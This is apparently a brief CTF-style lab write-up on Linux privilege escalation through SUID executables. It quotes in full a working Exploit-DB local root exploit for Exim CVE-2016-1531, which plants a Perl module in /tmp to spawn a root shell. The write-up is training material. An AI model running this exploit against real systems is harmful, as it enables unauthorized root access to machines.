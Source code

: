 ***

Author : dxWiz
Date : 17 Mar 2022

***

# Task 11 SUID / SGID Executables - Known Exploits 

Result returned from exploit DB

    #!/bin/sh
    # CVE-2016-1531 exim <= 4.84-3 local root exploit
    # ===============================================
    # you can write files as root or force a perl module to
    # load by manipulating the perl environment and running
    # exim with the "perl_startup" arguement -ps. 
    #
    # e.g.
    # [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
    # [ CVE-2016-1531 local root exploit
    # sh-4.3# id
    # uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
    # 
    # -- Hacker Fantastic 
    echo [ CVE-2016-1531 local root exploit
    cat > /tmp/root.pm << EOF
    package root;
    use strict;
    use warnings;

    system("/bin/sh");
    EOF
    PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps


The overall idea is to create a perl module with the extension of .pm and run exploitable exim with the argument -ps to get root shell.

# Task 12 SUID / SGID Executables - Shared Object Injection 
